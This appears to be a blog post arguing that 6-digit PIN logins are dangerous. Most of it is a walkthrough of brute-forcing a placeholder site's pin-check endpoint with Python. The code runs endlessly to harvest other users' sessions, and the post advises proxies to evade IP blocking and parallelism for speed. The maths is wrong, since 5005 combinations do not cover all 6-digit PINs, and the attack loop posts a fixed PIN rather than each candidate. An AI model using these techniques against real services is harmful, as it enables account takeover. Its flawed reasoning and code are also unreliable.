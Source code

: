 ```yaml
---
layout: post
title:  Why pin login is bad?
description: Accessing information using just pin login is dangerous and should be avoided at all costs.
date:   2022-01-04 14:04:00 +0500
categories: pin-login password security hacking
---
```


Accessing information using just pin login is dangerous and should be avoided at all costs.

# What is pin login ?

A pin login is a terminology used by people to provision access to data or an interface using a pin when they don't remember the password or when someone want to get access to account quickly using n digit pin.

# Use case

Recently i discovered one of the services that i was using used a pin login that will allow its customers to login to their account using a 6 digit pin.

Lets call the service xyz.com and the pin login page was available at https://xyz.com/account/pin-login

By entering the generated pin login behind the scenes the interface will allow a user to login to their account.

# Attach strategy

Firstly i need to figure out the valid pin login that i can use to access a user account randomly and save the session for me to access anytime i want. Once i am able to login to the account i can re use the session from a successful attack to access it again when ever i want.

It's a 6 digit pin login hence the combinations for this could be calculated using below formula

![image](https://user-images.githubusercontent.com/21299746/148114971-aefb43f5-724a-4373-bc50-20fd8ad00965.png)

n = 10 since we clearly know that it's a numerical combinations so the allowed total objects were 0-9

r = 6 the length of the pin

With this i can generate 5005 pins that could be tried that have repetitions i.e, a digit could be repeated one or more times.

I can generate the combinations with repetitions using python math module as below

```python
>>> from itertools import combinations_with_replacement
>>> n = range(10)
>>> r = 6
>>> values = list(combinations_with_replacement(n, r))
>>> possible_pins = ["".join(map(lambda x: str(x), item)) for item in values]
>>> possible_pins

['000000', '000001', '000002', '000003', '000004', '000005', '000006', '000007', '000008', '000009', '000011', '000012', '000013', '000014', '000015', '000016', '000017', '000018', '000019', '000022', '000023', '000024', '000025', '000026', '000027', '000028', '000029', '000033', '000034',...'899999', '999999']

```

# Attack

Since attempting to use pins in a browser with user interface is a memory intense operation i want to use something light and fast because we don't know yet how long these pins will be active/expire.

I made a network trace when i hit submit button using a random 6 digit pin and saw that the UI was making a post request to an endpoint https://xyz.com/account/pin-check

I can now use this network call to make a request using python requests module as below

```python
>>> import requests
>>> session = requests.Session()
>>> response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})
>>> response

<Response [401]>

```

Now i will go ahead and try to use all the pins that i have to see if any pin is active and i can use it. I modified the above code to match my needs

```python
>>> successful_attacks = {}
>>> for pin in possible_pins:
>>>     session = requests.Session()
>>>     response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})
>>>     if response.status_code == requests.codes.ok:
>>>         successful_attacks[pin] = session

```

The above code will find an active/valid pin during the time of request. I want to launch this attach throughout the day 24x7 so that if any one who generates the pin anytime i can get the session.

I will just put a while loop to do so.

```python
>>> def attack() -> dict:
>>>     successful_attacks = {}
>>>     for pin in possible_pins:
>>>         session = requests.Session()
>>>         response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})
>>>         if response.status_code == requests.codes.ok:
>>>             successful_attacks[pin] = session
>>>     return successful_attacks
>>> successful_sessions = []
>>> while True:
>>>     successful_sessions += attack().values()

```

Once the above code runs forever i will get all the successful sessions that i can use to get access to the accounts.

# Problems that we have to address along the way

### Too many requests from the same ip address can result in blocked network calls

To resolve this we can use proxy ip addresses to make anonymized network calls using requests

### Time consumed for each attack with series of requests one after another

Now this is a good problem that i want to solve. If each request will take n seconds on an average, then it will take n * 5005 seconds for each attack. There is a possibility that a pin was created and expired during this time. So we have to be fast. To resolve this we can use multi processing or distributed task processing to distribute 5005 tasks evenly so that the results were generated instantly without having to wait on others.

# Conclusion

Pin logins are dangerous. Avoid completely if possible otherwise at least make it very complex so that the combinations are at higher level. You can achieve that by allowing characters, digits, special characters as a part of your pin with a long lengths. Set the pin expiry as small as possible so that a pin could be alive for only a very small time.
